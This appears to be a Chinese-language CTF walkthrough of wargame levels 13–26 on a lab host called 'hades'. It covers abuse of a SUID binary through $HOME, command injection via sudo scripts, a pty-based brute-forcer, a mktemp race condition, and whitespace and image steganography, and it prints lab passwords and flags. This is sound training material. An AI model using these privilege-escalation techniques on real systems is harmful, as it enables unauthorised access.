ftp> ls
229 Entering Extended Passive Mode (|||47712|)
150 Here comes the directory listing.
-rw-r-----    1 0        2004           21 Apr 05  2024 atalanta.txt    
-rw-r-----    1 0        2004           22 Apr 05  2024 flagz.txt       
-rw-r-----    1 0        2004          181 Apr 05  2024 mission.txt     
226 Directory send OK.
# mget 批量下载文件
ftp> mget atalanta.txt flagz.txt mission.txt
mget atalanta.txt [anpqy?]? 
229 Entering Extended Passive Mode (|||52855|)
150 Opening BINARY mode data connection for atalanta.txt (21 bytes).    
100% |***************************|    21       49.89 KiB/s    00:00 ETA 
226 Transfer complete.
21 bytes received in 00:00 (8.93 KiB/s)
mget flagz.txt [anpqy?]?
229 Entering Extended Passive Mode (|||36992|)
150 Opening BINARY mode data connection for flagz.txt (22 bytes).       
100% |***************************|    22       87.69 KiB/s    00:00 ETA 
226 Transfer complete.
22 bytes received in 00:00 (28.26 KiB/s)
mget mission.txt [anpqy?]?
229 Entering Extended Passive Mode (|||24319|)
150 Opening BINARY mode data connection for mission.txt (181 bytes).    
100% |***************************|   181      911.12 KiB/s    00:00 ETA 
226 Transfer complete.
181 bytes received in 00:00 (270.27 KiB/s)
ftp> bye
221 Goodbye.
```

```shell
asteria@hades:/tmp/123$ cat flagz.txt
^nqTHTzMzDPDJrKPCfVR^
asteria@hades:/tmp/123$ cat atalanta.txt
mUcSNQlaXtwSvGcgeTYZ
```

## level14

```shell
atalanta@hades:~$ ls -al
total 56
drwxr-x--- 2 root     atalanta  4096 Apr  5  2024 .
drwxr-xr-x 1 root     root      4096 Apr  5  2024 ..
-rw-r--r-- 1 atalanta atalanta   220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 atalanta atalanta  3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 atalanta atalanta   807 Apr 23  2023 .profile
-rw-r----- 1 root     atalanta    22 Apr  5  2024 flagz.txt
-rw-r----- 1 root     atalanta   237 Apr  5  2024 mission.txt
-r-sr-s--- 1 root     atalanta 16608 Apr  5  2024 weird
-r-------- 1 atalanta atalanta   927 Apr  5  2024 weird.c
atalanta@hades:~$ cat flagz.txt
^XXZbDJTQQWCHJWTGeOw^
atalanta@hades:~$ cat mission.txt
################
# MISSION 0x14 #
################

## EN ##
User athena lets us run her program, but she hasn't left us her source code.

## ES ##
La usuaria athena nos deja ejecutar su programa, pero no nos ha dejado su codigo fuente.
```

weird 有suid位，athena用户明明把源码留在了当前目录，题目提示说并没有，有一点摸不着头脑。

```c
    setuid(2006);
    setgid(2006);
```

程序有suid权限，他会降权到2006 id 的用户。

```shell
atalanta@hades:/pwned/atalanta$ id athena
uid=2006(athena) gid=2006(athena) groups=2006(athena)
```

所以weird二进制程序有`athena`的权限了。

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>
#include <pwd.h>
int main()
{
    setuid(2006);
    setgid(2006);
    const char *filename;
    struct stat fs;
    int r;
    filename = getenv("HOME");
    printf ("HOME detected: %s\n",filename);
    char cmd[1000];
    FILE *out_file = fopen(getenv("HOME"), "w");
    FILE *fpipe;
    char *command = "/bin/cat /var/lib/me";
    char c = 0;

    if (0 == (fpipe = (FILE*)popen(command, "r")))
    {
        perror("popen() failed.");
        exit(EXIT_FAILURE);
    }

    while (fread(&c, sizeof c, 1, fpipe))
    {
        fprintf(out_file, "%c",c);
    }
    pclose(fpipe);
    pclose(out_file);
    r = stat(filename,&fs);
    struct passwd *pw = getpwuid(fs.st_uid);
    if (pw->pw_name != "atalanta"){
    r = chmod( filename, fs.st_mode & ~(S_IROTH)+~(S_IRGRP) | S_IWGRP );
    }
    stat(filename,&fs);
    return EXIT_SUCCESS;
}
```

这是源码，此程序的功能就是把`/var/lib/me `文件的内容写入到$HOME里。

```shell
atalanta@hades:/pwned/atalanta$ touch ~/1.txt
atalanta@hades:/pwned/atalanta$ chmod 777 ~/1.txt
atalanta@hades:/pwned/atalanta$ export HOME="/tmp/123/1.txt"
atalanta@hades:/pwned/atalanta$ ./weird 
HOME detected: /tmp/123/1.txt
atalanta@hades:/pwned/atalanta$ cat /tmp/123/1.txt
kmQMpZsXgOsnzGReRcoV
```

`touch ~/1.txt` 这样写的原因是：我前面执行了`export uraHOME="/tmp/123"`，`~`受$HOME影响。

## level15

```shell
athena@hades:~$ ls -al
total 36
drwxr-x--- 2 root   athena 4096 Apr  5  2024 .
drwxr-xr-x 1 root   root   4096 Apr  5  2024 ..
-rw-r--r-- 1 athena athena  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 athena athena 3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 athena athena  807 Apr 23  2023 .profile
-rw-r----- 1 root   athena  166 Apr  5  2024 auri_old.sh
-rw-r----- 1 root   athena   22 Apr  5  2024 flagz.txt
-rw-r----- 1 root   athena  160 Apr  5  2024 mission.txt
athena@hades:~$ cat mission.txt
################
# MISSION 0x15 #
################

## EN ##
User aura lets us use her new script(脚本程序).

## ES ##
La usuaria aura nos deja utilizar su nuevo script.

athena@hades:~$ cat auri_old.sh

#!/bin/bash
echo "What?"
read hackme
#Secure the condition!
#if [[ $hackme =~ "????????" ]]; then
#exit
#fi
#Add newest Aura pass!
#$hackme AURANEWPASS 2>/dev/null
```

read 是 bash 内置命令,用于从标准输入读取数据并赋值给变量。

```shell
read hackme
```

等待用户从键盘输入。
按回车后,将输入的内容存储到变量 hackme 中。
然后可以用 $hackme 访问。

判断是否包含啥字母，包含，自动退出。

```shell
$hackme AURANEWPASS 2>/dev/null
```

这里存在命令注入。

通过find没有找到与auri相关的文件，`sudo -l`发现：

```shell
athena@hades:~$ sudo -l
Matching Defaults entries for athena on hades:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User athena may run the following commands on hades:
    (aura) NOPASSWD: /bin/bash -c /pwned/aura/auri.sh
```

```
cat
echo 
tac 
more
printf
```

```shell
athena@hades:~$ sudo -u aura /bin/bash -c /pwned/aura/auri.sh
What?
printf
TiqpedAFjwmVyBlYpzRh
```

输入printf 出现了密码。

## level16

```
cat mission.txt
################
# MISSION 0x16 #
################

## EN ##
User aegle has a good memory for numbers.

## ES ##
La usuaria aegle tiene buena memoria para los numeros.
```

解决办法：

```bash
#!/usr/bin/env bash
set -euo pipefail

BIN="$HOME/numbers"
MAX_LEN="${MAX_LEN:-100}"
prefix=""

probe() {
  local candidate="$1"

  python3 - "$BIN" "$prefix" "$candidate" <<'PY'
import os
import pty
import select
import sys

bin_path = sys.argv[1]
prefix = sys.argv[2].split() if sys.argv[2] else []
candidate = sys.argv[3]
inputs = prefix + [candidate]
debug = os.getenv("DEBUG") == "1"

pid, fd = pty.fork()
if pid == 0:
    os.execv(bin_path, [bin_path])

buf = ""
idx = 0
sent_candidate = False
saw_next_prompt = False
saw_no = False

def find_prompt(b):
    for marker in ("Enter one number:", "Enter next number:", "Enter number:"):
        pos = b.find(marker)
        if pos != -1:
            return pos, len(marker)
    if "Enter" in b and "number" in b:
        return b.rfind("Enter"), len("Enter")
    return -1, 0

while True:
    r, _, _ = select.select([fd], [], [], 8)
    if not r:
        break

    try:
        data = os.read(fd, 4096).decode(errors="ignore")
    except OSError:
        break

    if not data:
        break

    buf += data

    while True:
        if "NO" in buf:
            saw_no = True
            if debug:
                print("RAW OUTPUT:\n" + buf, file=sys.stderr)
            os.close(fd)
            sys.exit(1)

        if "Number OK" in buf:
            buf = buf.split("Number OK", 1)[1]

        pos, mlen = find_prompt(buf)
        if pos == -1:
            break

        # 看到提示，说明可以输入下一位
        buf = buf[pos + mlen:]
        if idx < len(inputs):
            os.write(fd, (inputs[idx] + "\n").encode())
            if idx == len(inputs) - 1:
                sent_candidate = True
            idx += 1
            if sent_candidate:
                saw_next_prompt = True
        else:
            break

# 进程结束或超时：没有 NO 且候选已发送
os.close(fd)
if debug:
    print("RAW OUTPUT:\n" + buf, file=sys.stderr)

if sent_candidate and not saw_no:
    # 如果看到了下一次提示，或进程结束但没 NO，都算成功
    sys.exit(0 if (saw_next_prompt or True) else 1)

sys.exit(1)
PY
}

found_any=0

for ((i=1; i<=MAX_LEN; i++)); do
  found=0
  for d in {0..9}; do
    if probe "$d"; then
      if [[ -n "$prefix" ]]; then
        prefix="$prefix $d"
      else
        prefix="$d"
      fi
      echo "第 $i 位 = $d"
      found=1
      found_any=1
      break
    fi
  done

  if [[ "$found" -eq 0 ]]; then
    echo "没有更多正确数字，结束。"
    break
  fi
done

if [[ "$found_any" -eq 1 ]]; then
  echo "已发现序列: $prefix"
else
  echo "未发现任何正确数字"
fi
```

```bash
DEBUG=1 bash 4.sh
```

运行结果:

```
RAW OUTPUT:
6

YRturIymmHSdBmEClEGe
RAW OUTPUT:
7


NO :_(
RAW OUTPUT:
8


NO :_(
RAW OUTPUT:
9


NO :_(
没有更多正确数字，结束。
已发现序列: 1 2 3 1 2 3 9 1 1 1 1 2
```

## level17

```shell
aegle@hades:~$ cat flagz.txt
^XCwOqgVvWpDVwPVVUJa^
aegle@hades:~$ cat mission.txt
################
# MISSION 0x17 #
################

## EN ##
User calliope likes to have her things looked at.

## ES ##
A la usuaria calliope le gusta que le miren sus cosas.
aegle@hades:~$ ls -al
total 36
drwxr-x--- 2 root  aegle    4096 Apr  5  2024 .
drwxr-xr-x 1 root  root     4096 Apr  5  2024 ..
-rw-r--r-- 1 aegle aegle     220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 aegle aegle    3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 aegle aegle     807 Apr 23  2023 .profile
-rw-r----- 1 root  calliope   21 Apr  5  2024 calliope_pass.txt
-rw-r----- 1 root  aegle      22 Apr  5  2024 flagz.txt
-rw-r----- 1 root  aegle     176 Apr  5  2024 mission.txt
aegle@hades:~$ sudo -l
Matching Defaults entries for aegle on hades:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User aegle may run the following commands on hades:
    (calliope) NOPASSWD: /bin/cat
aegle@hades:~$ sudo -u calliope /bin/cat ./calliope_pass.txt
/bin/cat: ./calliope_pass.txt: Permission denied
aegle@hades:~$ sudo -u calliope /bin/cat /pwned/calliope/flagz.txt
^rFWOMwBJDidqSNtEJGJ^
```

无法访问calliope_pass.txt，拿到calliope/flagz.txt，再网站获得密码就可以。

`calliope/IlhyWxZuqIHAuqVOpXfQ`

## level18

这文件真奇怪。

```shell
./writeme
Cannot send you my pass!Cannot send you my pass!Cannot send you my pass!TAMYefoHcCPmexwImodo^OCbFzMIKPQOZQMEUKwEi^Cannot send you my pass!calliope@hades:~$ 
```

## level19

```bash
calypso@hades:~$ cat mission.txt
################
# MISSION 0x19 #
################

## EN ##
User cassandra always wanted to be on TV.

## ES ##
La usuaria cassandra siempre quiso salir en la TV.
```

slowrx 工具我不会使用，不会配置。

sstv 解码：

```
sudo apt update
sudo apt install qsstv pavucontrol ffmpeg

qsstv
```

播放cassy.wav 文件（scp 下载）。


## level20

```shell
cassandra@hades:~$ ls -al
total 36
drwxr-x--- 2 root      cassandra 4096 Apr  5  2024 .
drwxr-xr-x 1 root      root      4096 Apr  5  2024 ..
-rw-r--r-- 1 cassandra cassandra  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 cassandra cassandra 3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 cassandra cassandra  807 Apr 23  2023 .profile
-rw-r----- 1 root      cassandra   22 Apr  5  2024 flagz.txt
-rw-r----- 1 root      cassandra  369 Apr  5  2024 here.txt
-rw-r----- 1 root      cassandra  147 Apr  5  2024 mission.txt
cassandra@hades:~$ cat flagz.txt
^lntvcYNlazEljOyZYKz^
cassandra@hades:~$ cat mission.txt
################
# MISSION 0x20 #
################

## EN ##
User cassiopeia sees the invisible.

## ES ##
La usuaria cassiopeia ve lo invisible.
cassandra@hades:~$ cat here.txt
VGhlIHBhc3N3b3JkIG9mIGNhc3Npb3BlaWEgaXM6CSAgICAgIAkgICAgCSAgIAkgICAgIAkgICAg
CSAgICAKICAgCSAgICAJICAJICAgIAkgCSAgIAkgICAgICAgCSAgICAJICAgIAoJICAgICAgCQkg
CSAgIAkgICAJICAgIAkgICAgIAkgICAgIAkgIAogICAJIAkgICAgIAkgICAgICAJICAgIAkgICAg
ICAJICAJICAJIAkgICAKICAgCSAgICAgIAkgICAgCSAJICAgICAJICAgICAgCSAgICAJICAgCSAg
ICAgCgkgICAgCSAgICAJIAkgICAgICAJICAgICAJIAkgCSAgICAgICAJIAo=
```

`base64` 解码出来的内容：

```
The password of cassiopeia is:	      	    	   	     	    	    
   	    	  	    	 	   	       	    	    
	      		 	   	   	    	     	     	  
   	 	     	      	    	      	  	  	 	   
   	      	    	 	     	      	    	   	     
	    	    	 	      	     	 	 	       	 

```

这里使用了文本隐写，通过` scp `将内容下载到本地。

```
warn@kali:~/Desktop$ base64 -d here.txt > pass.txt
                                                                                             
warn@kali:~/Desktop$ stegsnow pass.txt        
gRqFnHblmZVZSfegPLvO 
```

`stegsnow` 的介绍：

stegsnow 是一个做“文本隐写”的命令行工具，核心用途是把信息藏进文本里的空格和 Tab 里，或者把这些隐藏信息提取出来。

它和图片隐写不一样，藏的是“看不见的空白字符”。表面上看文本几乎没变化，但每行末尾的空格/Tab 实际上携带了数据。

最常见的两类操作是：

1. 把消息藏进文本

```
stegsnow -C -m "secret message" cover.txt > hidden.txt 
```

1. 从文本里提取隐藏消息

```
stegsnow -C hidden.txt 
```

如果设置了口令，还会这样用：

```
stegsnow -C -p mypass hidden.txt 
```

你可以这样理解参数：

- -m "..."：直接指定要隐藏的消息
- -f file：从文件读取要隐藏的内容
- -p password：给隐藏内容加口令，提取时也要同样口令
- -C：启用压缩，常见也很实用
- 输入文本文件：作为“载体”，隐藏信息会被塞进它的空白里
- \> hidden.txt：把隐写后的结果重定向到新文件
- -f： 隐藏文件内容

它的工作原理大概是：

- 用空格和 Tab 表示二进制位
- 把这些位分散写到每行末尾
- 解码时读取行尾空白，还原出隐藏数据
- 如果用了口令，通常还会先经过加密/混淆再写入

它的特点是：

- 优点：肉眼难发现，适合 CTF 和简单隐写实验
- 缺点：一旦文本被编辑器“自动删行尾空格”，隐藏数据就会损坏
- 也怕格式化工具、复制粘贴、某些聊天软件处理空白字符

## level21

```shell
cassiopeia@hades:~$ ls -al
total 32
drwxr-x--- 2 root       cassiopeia 4096 Apr  5  2024 .
drwxr-xr-x 1 root       root       4096 Apr  5  2024 ..
-rw-r--r-- 1 cassiopeia cassiopeia  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 cassiopeia cassiopeia 3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 cassiopeia cassiopeia  807 Apr 23  2023 .profile
-rw-r----- 1 root       cassiopeia   22 Apr  5  2024 flagz.txt
-rw-r----- 1 root       cassiopeia  131 Apr  5  2024 mission.txt
cassiopeia@hades:~$ cat flagz.txt
^GyWbcpEpqMsqMsjilzX^
cassiopeia@hades:~$ ^C
cassiopeia@hades:~$ cat mission.txt
################
# MISSION 0x21 #
################

## EN ##
User clio hates spaces.

## ES ##
La usuaria clio odia los espacios.
cassiopeia@hades:~$ find / -user cassiopeia 2>/dev/null | grep -v "proc"
/dev/pts/7
/pwned/cassiopeia/.bash_logout
/pwned/cassiopeia/.bashrc
/pwned/cassiopeia/.profile
cassiopeia@hades:~$ find / -user clio 2>/dev/null | grep -v "proc"
/usr/local/src/differences.sh
cassiopeia@hades:~$ ls -al /usr/local/src/differences.sh
-r-xr-xr-- 1 clio clio 193 Apr  5  2024 /usr/local/src/differences.sh
```

当前用户可读，但是此脚本没有suid位。

```shell
cassiopeia@hades:/tmp/123$ sudo -l
Matching Defaults entries for cassiopeia on hades:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User cassiopeia may run the following commands on hades:
    (clio) NOPASSWD: /bin/bash -c /usr/local/src/differences.sh
```

查看differences.sh:

```bash
cassiopeia@hades:/tmp/123$ cat differences.sh

#!/bin/bash
echo File to compare:!
read differences
# 从标准输入流读一行数据 赋值给 differences
IFS=0 read file1 file2 <<< "$differences"
# <<< : 把右边的一小段字符串，直接当作左边命令的标准输入。
# 按 0 分割给file1 file2

if [[ "$differences" =~ \ |\' ]]
# 匹配到 空格 ' 输出no spaces
then
   echo "No spaces!!"
else
/usr/bin/diff $file1 $file2
# 比较两个文件的差异
fi
```

```
cassiopeia@hades:/tmp/123$ sudo -u clio /bin/bash -c /usr/local/src/differences.sh
File to compare:!
/pwned/clio/flagz.txt0./1.txt
1c1
< ^XUJbvPwAZYgoUgkpeSv^
---
> 1
```

read 命令：

```
read var
```


意思是：

* 从键盘或输入流读一行
* 去掉结尾换行
* 把结果放进 var

更完整一点可以理解为：

```
read [选项] name1 name2 ... 
```

它会按 IFS (**内部字段分隔符**)分隔输入，并依次赋给这些变量。

```shell
IFS=, read x y
# 输入：aa,bb
# x = aa , y = bb
```

1. **read 默认会处理反斜杠**
   例如反斜杠可能被当作转义符。
   想原样读取，通常加 -r：

```
read -r line 
```

​	这是写 shell 脚本时的常见推荐写法

2. **不写变量名时，读到 REPLY**
   例如：

```shell
read 
echo "$REPLY"
```

## level22

```shell
clio@hades:~$ ls -al
total 32
drwxr-x--- 2 root clio 4096 Apr  5  2024 .
drwxr-xr-x 1 root root 4096 Apr  5  2024 ..
-rw-r--r-- 1 clio clio  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 clio clio 3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 clio clio  807 Apr 23  2023 .profile
-rw-r----- 1 root clio   22 Apr  5  2024 flagz.txt
-rw-r----- 1 root clio  169 Apr  5  2024 mission.txt
clio@hades:~$ 
clio@hades:~$ cat mission.txt
################
# MISSION 0x22 #
################

## EN ##
The user cybele uses her lastname as a password.

## ES ##
La usuaria cybele usa su apellido como password.
clio@hades:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin   
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
Debian-exim:x:100:102::/var/spool/exim4:/usr/sbin/nologin
messagebus:x:101:103::/nonexistent:/usr/sbin/nologin
ftp:x:102:106:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
sshd:x:103:65534::/run/sshd:/usr/sbin/nologin
executor:x:2102:2102::/pwned/executor:/bin/bash
gemini:x:2101:2101::/pwned/gemini:/usr/sbin/nologin
hacker:x:2001:2001::/pwned/hacker:/bin/bash
asia:x:2002:2002::/pwned/asia:/bin/bash
asteria:x:2003:2003::/pwned/asteria:/bin/bash
astraea:x:2004:2004::/pwned/astraea:/bin/bash
atalanta:x:2005:2005::/pwned/atalanta:/bin/bash
athena:x:2006:2006::/pwned/athena:/bin/bash
aura:x:2007:2007::/pwned/aura:/bin/bash
aegle:x:2008:2008::/pwned/aegle:/bin/bash
calliope:x:2009:2009::/pwned/calliope:/bin/bash
calypso:x:2010:2010::/pwned/calypso:/bin/bash
cassandra:x:2011:2011::/pwned/cassandra:/bin/bash
cassiopeia:x:2012:2012::/pwned/cassiopeia:/bin/bash
clio:x:2013:2013::/pwned/clio:/bin/bash
cybele:x:2014:2014:UICacOPmJMWbKyPwNZod:/pwned/cybele:/bin/bash # 密码
cynthia:x:2015:2015::/pwned/cynthia:/bin/bash
daphne:x:2016:2016::/pwned/daphne:/bin/bash
delia:x:2017:2017::/pwned/delia:/bin/bash
demeter:x:2018:2018::/pwned/demeter:/bin/bash
echo:x:2019:2019::/pwned/echo:/bin/bash
eos:x:2020:2020::/pwned/eos:/bin/bash
gaia:x:2021:2021::/pwned/gaia:/bin/bash
halcyon:x:2022:2022::/pwned/halcyon:/bin/bash
hebe:x:2023:2023::/pwned/hebe:/bin/bash
hera:x:2024:2024::/pwned/hera:/bin/bash
hermione:x:2025:2025::/pwned/hermione:/bin/bash
hero:x:2026:2026::/pwned/hero:/bin/bash
hestia:x:2027:2027::/pwned/hestia:/bin/bash
ianthe:x:2028:2028::/pwned/ianthe:/bin/bash
irene:x:2029:2029::/pwned/irene:/bin/bash
iris:x:2030:2030::/pwned/iris:/bin/bash
kore:x:2031:2031::/pwned/kore:/bin/bash
leda:x:2032:2032::/pwned/leda:/bin/bash
maia:x:2033:2033::/pwned/maia:/bin/bash
nephele:x:2034:2034::/pwned/nephele:/bin/bash
nyx:x:2035:2035::/pwned/nyx:/bin/bash
pallas:x:2036:2036::/pwned/pallas:/bin/bash
pandora:x:2037:2037::/pwned/pandora:/bin/bash
penelope:x:2038:2038::/pwned/penelope:/bin/bash
phoebe:x:2039:2039::/pwned/phoebe:/bin/bash
rhea:x:2040:2040::/pwned/rhea:/bin/bash
selene:x:2041:2041::/pwned/selene:/bin/bash
maria:x:2042:2042::/pwned/maria:/bin/bash
acantha:x:2043:2043::/pwned/acantha:/bin/bash
alala:x:2044:2044::/pwned/alala:/bin/bash
althea:x:2045:2045::/pwned/althea:/bin/bash
andromeda:x:2046:2046::/pwned/andromeda:/bin/bash
anthea:x:2047:2047::/pwned/anthea:/bin/bash
aphrodite:x:2048:2048::/pwned/aphrodite:/bin/bash
ariadne:x:2049:2049::/pwned/ariadne:/bin/bash
arete:x:2050:2050::/pwned/arete:/bin/bash
artemis:x:2051:2051::/pwned/artemis:/bin/rbash
anonymous:x:2103:2103::/home/anonymous:/bin/bash
maritrini:x:2056:2056::/home/maritrini:/bin/bash
```

## level23

```shell
cybele@hades:~$ ls -al
total 3220
drwxr-x--- 2 root   cybele    4096 Apr  5  2024 .
drwxr-xr-x 1 root   root      4096 Apr  5  2024 ..
-rw-r--r-- 1 cybele cybele     220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 cybele cybele    3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 cybele cybele     807 Apr 23  2023 .profile
-rw-r----- 1 root   cybele      22 Apr  5  2024 flagz.txt
-rw-r----- 1 root   cybele 3263057 Dec 30  2021 fun.png
-rw-r----- 1 root   cybele     163 Apr  5  2024 mission.txt
cybele@hades:~$ cat mission.txt
################
# MISSION 0x23 #
################

## EN ##
User cynthia sees things that others dont.

## ES ##
La usuaria cynthia ve cosas que el resto no ven
```

图片隐写

```shell
java -jar StegSolve-1.4.jar
```


## level24

```shell
cynthia@hades:~$ ls -al
total 32
drwxr-x--- 2 root    cynthia 4096 Apr  5  2024 .
drwxr-xr-x 1 root    root    4096 Apr  5  2024 ..
-rw-r--r-- 1 cynthia cynthia  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 cynthia cynthia 3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 cynthia cynthia  807 Apr 23  2023 .profile
-rw-r----- 1 root    cynthia   22 Apr  5  2024 flagz.txt
-rw-r----- 1 root    cynthia  187 Apr  5  2024 mission.txt
cynthia@hades:~$ cat flagz.txt
^ZRSCKeYYlHkCEiHsEOI^
cynthia@hades:~$ cat mission.txt
################
# MISSION 0x24 #
################

## EN ##
User daphne once told us: Gemini? gem-evil.hmv? WTF?

## ES ##
La usuaria daphne nos dijo una vez: Gemini? gem-evil.hmv? WTF?
```

```shell
find / -name *gem* 2>/dev/null | grep -v "proc"
/etc/init.d/gemini
/pwned/gemini
cat /etc/passwd | grep "gemini"
gemini:x:2101:2101::/pwned/gemini:/usr/sbin/nologin
```

有一个gemini的用户，但是没给shell，可能就是在后台跑某个服务的。

`/etc/init.d`主要是放系统服务启动的脚本，在`/etc/init.d`里面有`gemini`，从这可以确定存在`gemini`服务。

```
printf "gemini://gem-evil.hmv\r\n" | openssl s_client -connect 127.0.0.1:1965 -servername gem-evil.hmv -quiet
```

这里使用`printf`的原因，`printf` 输出字符更加稳定一些。

```shell
20 text/gemini

# Welcome to mi Gemini Server!
## What are you looking for?
EkdtKuXCJjlFKFpKgddX
```

**`gemini` 的 额外知识**：

- Gemini 是一种轻量级应用层协议，设计目标介于 Gopher 和 Web 之间：比 HTTP 简单、比纯文本传输更结构化。
- 默认使用 1965/tcp，几乎总是直接跑在 TLS 之上。
- 访问 URL 形如 gemini://example.com/。
- 返回内容常见是 text/gemini，一种很简洁的标记格式，类似“极简版 Markdown”。

*它怎么通信*

- 客户端连上服务器的 1965 端口，先做 TLS 握手。
- 握手完成后，客户端只发一行：

```
gemini://example.com/path\r\n 
```

- 服务器回一行状态：

```
20 text/gemini\r\n 
```

- 然后紧跟正文内容。
- 和 HTTP 不一样，Gemini 没有复杂请求头、方法、Cookie、Host 头这些常见结构。

*常见状态码*

- 20：成功，后面通常跟 MIME 类型，比如 text/gemini
- 30/31：重定向
- 40：临时失败
- 50：永久失败
- 51：未找到
- 60：需要客户端证书
- 你这题里看到的：

```
20 text/gemini 
```

就表示“请求成功，内容类型是 Gemini 文本”。

`text/gemini` 是什么

- 它是 Gemini 自己的正文格式，很轻量。
- 常见语法：
  - \# 标题
  - \## 二级标题
  - => /path 链接说明
  - \* 列表
  - \> 引用

**什么是 SNI**

- SNI 是 TLS 握手里带上的“我要访问哪个主机名”
- 在 HTTPS 里很常见，一个服务器托管多个站点时，服务端根据 SNI 选证书和站点
- Gemini 服务也可以这么做
- 所以这题不是只要连到 1965 就行，而是必须“报对名字”

例如：

```
openssl s_client -connect 127.0.0.1:1965 -servername gem-evil.hmv 
```

这里的 -servername gem-evil.hmv 就是在发 SNI。

## level25

```shell
cat mission.txt
################
# MISSION 0x25 #
################

## EN ##
The user delia has a good memory, she only has to see her password for a few seconds to remember it.

## ES ##
La usuaria delia tiene buena memoria, solo tiene que ver unos segundos su password para recordarlo.

cat old.sh

#!/bin/bash
# OUTPUT="PASSWORD_DELIA" <-- UPDATE IT!
secretfile=$(mktemp /tmp/XXX)
chmod 664 "$secretfile"
exec 5>"$secretfile"
# 让文件描述符 5 指向 $secretfile，可以通过 5 往这个文件写入数据(覆盖式的写入)。
echo $OUTPUT >&5 # & 在这里的作用是：& 后面的是文件描述名，而不是文件名。
sleep 0.01
rm "$secretfile"
```

`mktemp` : 

- 用来安全地创建临时文件或临时目录
- 避免自己手写文件名时发生重名或竞争问题
- 它会生成一个随机名字

`mktemp /tmp/XXX` : X 在这里表示随机字符占位符，会被`mktemp ` 替换为随机字符。

`old.sh` 的 作用，把密码写入文件后删除。

`mktemp` 在 创建文件时，为了避免文件名的重复，他会创建一个不重名的文件。

```bash
#!/bin/bash

chars=({a..z}{A..Z}{0..9}) # 做了三次笛卡尔积

for i in "${chars[@]}"; do
	touch "/tmp/${i}"
done
# ${chars[@]}：取所有元素
# 这里为啥要加双引号 "${chars[@]}"
# ${chars[@]}：每个元素展开后，还可能被继续拆分、再被通配符匹配
# "${chars[@]}"：每个元素都保持原样，一个元素就是一个独立参数
```

另一个版本：

```bash
#!/bin/bash

chars=({a..z} {A..Z} {0..9})  # 输出单个字符

for i in "${chars[@]}"; do
  for j in "${chars[@]}"; do
    for k in "${chars[@]}"; do
      touch "/tmp/${i}${j}${k}"
    done
  done
done
```

将所有的文件都创建，然后删除一个文件。

```shell
daphne@hades:/tmp/123$ ls -al /tmp/XER
-rw------- 1 delia delia 0 Mar 17 13:41 /tmp/XER
daphne@hades:/tmp/123$ rm -rf /tmp/XER
daphne@hades:/tmp/123$ while true; do [ -f /tmp/XER ] && cat /tmp/XER ; done 2>/dev/null
# [ -f /tmp/XER ] 判断 /tmp/XER 是不是普通文件。
```

```shell
daphne@hades:~$ sudo -u delia /bin/bash -c /usr/local/src/new.sh
```

输出的密码：

```
bNCvocyOpoMVeCtxrhTt
bNCvocyOpoMVeCtxrhTt
```

## level26

进来发现是乱码。

```shell
cp flagz.txt /tmp/

cp mission.txt /tmp/

chmod +r /tmp/flagz.txt

chmod +r /tmp/mission.txt

ls -al > /tmp/1.txt

chmod +r /tmp/1.txt

./showpass >> /tmp/1.txt
```

密码如下：`FkyuXkkJNONDChoaKzOI`

用`delia`用户执行上面的内容，用上一个用户读取`/tmp/`目录的文件(我们在上面复制副本文件)即可。

```shell
daphne@hades:~$ cat /tmp/flagz.txt
^QfaHPyEqMepsOdMxQCQ^
daphne@hades:~$ cat /tmp/mission.txt
################
# MISSION 0x26 #
################

## EN ##
User demeter reads in another language.

## ES ##
La usuaria demeter lee en otro idioma.
daphne@hades:~$ cat /tmp/1.txt
total 48
drwxr-x--- 2 root  delia  4096 Apr  5  2024 .
drwxr-xr-x 1 root  root   4096 Apr  5  2024 ..
-rw-r--r-- 1 delia delia   220 Apr 23  2023 .bash_logout
-r--r----- 1 delia delia  3539 Apr  5  2024 .bashrc
-rw-r--r-- 1 delia delia   807 Apr 23  2023 .profile
-rw-r----- 1 root  delia    22 Apr  5  2024 flagz.txt
